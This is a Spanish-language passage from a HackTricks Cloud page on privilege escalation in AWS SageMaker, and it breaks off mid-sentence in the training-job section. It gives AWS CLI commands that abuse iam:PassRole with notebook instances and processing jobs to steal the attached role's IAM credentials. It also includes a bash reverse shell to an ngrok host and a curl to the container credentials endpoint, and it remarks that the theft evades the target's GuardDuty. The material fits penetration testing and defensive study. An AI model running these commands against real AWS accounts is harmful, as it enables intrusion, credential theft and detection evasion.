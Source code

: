 # AWS - Sagemaker Privesc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

El primer paso en este proceso de ataque es **identificar un rol que confíe en SageMaker para asumirlo** (sagemaker.amazonaws.com). Una vez hecho esto, podemos ejecutar el siguiente comando para crear un nuevo notebook con ese rol adjunto:

```
aws sagemaker create-notebook-instance --notebook-instance-name example \
    --instance-type ml.t2.medium \
    --role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```

Si tiene éxito, recibirá el **ARN de la nueva instancia de notebook** en la respuesta de AWS. Eso tomará **unos minutos** para poner en marcha, pero una vez que lo haya hecho, podemos ejecutar el siguiente comando para obtener una URL pre-firmada para obtener **acceso a la instancia de notebook a través de nuestro navegador web**. Potencialmente hay otras formas de obtener acceso, pero este es un permiso único y una sola llamada a la API, por lo que parecía simple.

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

Si esta instancia se ha iniciado completamente, esta llamada a la API devolverá una **URL firmada que podemos visitar** en nuestro navegador para acceder a la instancia. Una vez en la página de Jupyter en mi navegador, haré clic en "Open JupyterLab" en la parte superior derecha, que se puede ver en la siguiente captura de pantalla.

![](<../../../.gitbook/assets/image (15) (1).png>)

Desde la siguiente página, desplácese hasta el final en la pestaña "Launcher". En la sección "Other", haga clic en el botón "Terminal", que se puede ver aquí.

![](<../../../.gitbook/assets/image (27).png>)

Desde la terminal tenemos algunas opciones, una de las cuales sería simplemente **usar la CLI de AWS**. La otra opción sería **contactar el servicio de metadatos de EC2** para obtener las credenciales del rol de IAM directamente y exfiltrarlas.

GuardDuty podría venir a la mente al leer "exfiltrarlas" anteriormente, sin embargo, en realidad no necesitamos preocuparnos por GuardDuty aquí. El hallazgo relacionado de GuardDuty es ["UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration"](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_unauthorized.html#unauthorized11), que alertará si las credenciales de un rol son robadas de una instancia de EC2 y se usan en otro lugar. Afortunadamente para nosotros, esta instancia de EC2 en realidad no vive en nuestra cuenta, sino que es una **instancia de EC2 administrada alojada en una cuenta propiedad de AWS**. Eso significa que **podemos exfiltrar estas credenciales y no preocuparnos por activar** los detectores de GuardDuty de nuestro objetivo.

**Impacto potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Similar al ejemplo anterior, si los **cuadernos de Jupyter ya están en ejecución** en él y puede listarlos con sagemaker:ListNotebookInstances (o descubrirlos de cualquier otra manera). Puede **generar una URL para ellos, acceder a ellos y robar las credenciales como se indica en la técnica anterior**.

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

**Impacto potencial:** Privesc al rol de servicio de sagemaker adjunto.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un atacante con esos permisos puede hacer que **sagemaker ejecute un trabajo de procesamiento** con un rol de sagemaker adjunto. El atacante puede indicar la definición del contenedor que se ejecutará en una **instancia de cuenta ECS administrada por AWS**, y **robar las credenciales del rol de IAM adjunto**.

```bash
# Subí una imagen de docker de python al ECR
aws sagemaker create-processing-job \
    --processing-job-name privescjob \
    --processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
    --app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
    --role-arn <sagemaker-arn-role>

# En mis pruebas tardó 10 minutos en recibir la shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #Para obtener las credenciales
```

**Impacto potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un atacante con esos permisos podrá crear un trabajo de entrenamiento, **ejecutando un contenedor arbitrario** en él con un **rol adjunto**. Por lo tanto, el atacante podrá robar las credenciales del rol.

{% hint style="warning" %}
Este escenario es más difícil de explotar que el anterior porque neces